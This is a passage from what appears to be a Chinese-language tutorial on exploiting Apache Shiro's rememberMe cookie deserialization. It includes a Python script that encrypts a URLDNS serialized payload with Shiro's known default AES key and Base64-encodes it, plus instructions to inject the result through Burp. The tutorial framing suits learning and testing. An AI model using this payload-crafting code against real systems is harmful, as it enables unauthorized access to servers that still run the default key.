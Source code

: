 然后在通过代码的方式将其进行**AES加密**以及**Base64编码**。

DNSURL链生成序列化文件部分已经讲完了，

#### 那么如何实现AES加密以及Base64编码呢？

可以利用Python实现，源码如下：

```python
from email.mime import base
from pydoc import plain
import sys
import base64
from turtle import mode
import uuid
from random import Random
from Crypto.Cipher import AES

def get_file_data(filename):
    with open(filename, 'rb') as f:
        data = f.read()
        return data
def aes_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
    return ciphertext
def aes_dec(enc_data):
    enc_data = base64.b64decode(enc_data)
    unpad = lambda s: s[:-s[-1]]
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = enc_data[:16]
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    plaintext = encryptor.decrypt(enc_data[16:])
    plaintext = unpad(plaintext)
    return plaintext
if __name__ == "__main__":
    data = get_file_data("dnsurl.bin")
    print(aes_enc(data))
```

![image-20241029170719954](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029170719954.png)

运行上述python脚本

![image-20241029170849040](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029170849040.png)

将脚本利用burp打入到`remeberMe`中，注意**要删除Cookie**中的`JSESSIONID`

